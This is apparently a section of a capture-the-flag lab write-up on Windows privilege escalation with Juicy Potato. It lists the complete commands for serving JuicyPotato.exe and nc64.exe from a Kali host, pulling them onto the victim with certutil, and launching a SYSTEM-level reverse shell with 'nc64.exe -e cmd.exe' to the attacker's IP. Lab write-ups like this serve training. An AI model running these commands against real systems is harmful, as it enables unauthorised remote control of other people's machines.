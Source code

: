 <figure><img src="../../.gitbook/assets/image (29) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation Option #3&#x20;

This is still with Juicy Potato but just a slightly different way using nc64.exe instead of a reverse shell.

**Kali**

```
git clone https://github.com/int0x33/nc.exe.git
cd nc.exe/
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
python2 -m SimpleHTTPServer 81
```

**Victim(cmd) - Wade**

```
cd C:\
mkdir test
cd test
certutil -urlcache -f http://10.10.133.11:81/JuicyPotato.exe JuicyPotato.exe
certutil -urlcache -f http://10.10.133.11:81/nc64.exe nc64.exe
```

**Kali**

```
nc -lvnp 1337
```

**Victim(cmd) - retro**

```
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\test\nc64.exe -e cmd.exe 10.10.133.11 1337 " -t *  -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" 
```

<figure><img src="../../.gitbook/assets/image (30) (4).png" alt=""><figcaption></figcaption></figure>

